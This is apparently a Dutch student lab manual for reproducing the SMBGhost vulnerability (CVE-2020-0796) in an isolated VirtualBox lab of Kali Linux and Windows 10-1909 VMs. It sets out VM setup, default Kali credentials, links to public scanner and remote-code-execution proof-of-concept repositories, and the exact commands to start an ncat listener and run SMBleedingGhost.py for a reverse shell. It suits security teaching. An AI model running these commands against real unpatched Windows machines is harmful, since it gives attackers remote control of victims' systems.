 # Handleiding

SMBGhost Vulnerability  
CVE-2020-0796

Doel: Remote Excecution   
Target: Windows 10-1909  

Team:   
Demi De Fré   
Abdul Rehman Shafaquet    
Arthur Neirynck  

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.  
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Open de Kali en Windows VM
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht)

## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

De scripts die we gebruiken voor de aanval zijn beschikbaar op onze [Github](https://github.com/abdulnsh/cybersecurity_vr_opdracht).  

Hier vermelden we toch voor de zekerheid onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [](https://github.com/jiansiting/CVE-2020-0796-Scanner) (Deze hebben we niet echt nodig, maar is er toch voor zekerheid)   

### Stap 1: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```
* We gebruiken het ip adres van de target als parameter.

### Stap 2: Remote excecution uitvoeren
* Juiste target offsets die passen voor slachtoffer zijn windows versie
*we moeten in een terminal (op onze kali linux) `ncat -lvp <port>` runnen, dit zal onze toegang zijn naar onze windows (dit kan zijn ncat -lvp 1234)
*we voeren `SMBleedingGhost.py` uit als volgt : `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`

*`target_ip` is onze windows 10 slachtoffer, 192.168.1.17 dus. `reverse_shell_ip` en `reverse_shell_port` zijn de ip address en poort waarop ncat luistert

*in ons geval zou onze code op zoiets lijken dus : `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`











